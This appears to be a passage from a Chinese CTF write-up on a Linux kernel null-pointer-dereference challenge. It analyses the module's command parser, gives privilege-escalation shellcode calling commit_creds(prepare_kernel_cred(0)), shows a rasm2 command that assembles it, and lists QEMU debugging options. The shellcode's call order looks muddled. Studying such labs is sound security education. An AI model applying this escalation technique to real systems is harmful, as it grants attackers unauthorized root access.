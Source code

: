 此处程序使用的是`GFP_DMA`标志。

在那之后，程序将用户传入的数据向该`Chunk`写入`length`个字节，并将末尾置零。

然后程序验证我们传入数据的前十个字节是否为`*`，若是，程序会从第十一字节开始逐字节进行扫描，根据不同的’命令’执行不同的操作。

在那之后程序会从第十一字节开始间隔一个`x00`或`n`字节进行扫描，根据不同的’命令’执行不同的操作。

```
H ： 将tostring-&gt;tostring_read这个函数指针置为tostring_read_hexa。
D ： 将tostring-&gt;tostring_read这个函数指针置为tostring_read_dec。
S ： 将tostring结构体清除，所有的成员变量置为NULL或0，释放tostring-&gt;tostring_stack指向的chunk。
N ： 首先调用local_strtoul(bufk+i+11,NULL,10)，若此时tostring-&gt;tostring_stack为NULL，则执行tostring结构体的初始化，将local_strtoul(bufk+i+11,NULL,10)的返回值乘1024作为size调用kmalloc函数将返回地址作为tostring-&gt;tostring_stack所指向的值，同时设置pointer_max这个成员变量的值为size/sizeof(long long int)，设置tostring-&gt;tostring_read这个函数指针为tostring_read_hexa。
```

否则，程序将会在`tostring-&gt;tostring_stack`中插入后续的值。

##### <a class="reference-link" name="tostring_read"></a>tostring_read

程序将直接调用tostring-&gt;tostring_read这个函数指针

#### <a class="reference-link" name="%E9%A2%98%E7%9B%AE%E6%BC%8F%E6%B4%9E%E5%88%86%E6%9E%90"></a>题目漏洞分析

程序在调用tostring-&gt;tostring_read这个函数指针时没有做指针有效性验证，这将导致程序试图调用一个空指针，而在此版本的Kernel中，程序已经关闭了`mmap_min_addr`的保护，这将导致我们可以`mmap`一个0地址处的内存映射，若我们能在0地址处写入shellcode，程序将会在调用空指针时调用此位置的shellcode，于是可以直接提权。

我们的目标是调用`commit_creds(prepare_kernel_cred(0))`，那么我们的shellcode就可以是：

```
xor eax,eax;
call commit_creds;
call prepare_kernel_cred;
ret;
```

其中`commit_creds`和`prepare_kernel_cred`函数的地址可以在`/proc/kallsyms`中定位到。

[![](./img/201454/AAffA0nNPuCLAAAAAElFTkSuQmCC)](https://img.lhyerror404.cn/error404/2020-03-17-154625.png)

可以使用`Radare2`生成`shellcode`:

```
rasm2 "xor eax,eax ; call 0xC10711F0 ; call 0xC1070E80 ; ret;"
```

#### <a class="reference-link" name="%E5%8A%A8%E6%80%81%E8%B0%83%E8%AF%95%E9%AA%8C%E8%AF%81"></a>动态调试验证

首先`QEMU`的启动指令为：

```
qemu-system-i386 -s 
-kernel bzImage 
-append nokaslr 
-initrd initramfs.img 
-fsdev local,security_model=passthrough,id=fsdev-fs0,path=/home/error404/Desktop/CTF_question/Kernel/Null_pointer_dereference/Share 
-device virtio-9p-pci,id=fs0,fsdev=fsdev-fs0,mount_tag=rootme
```
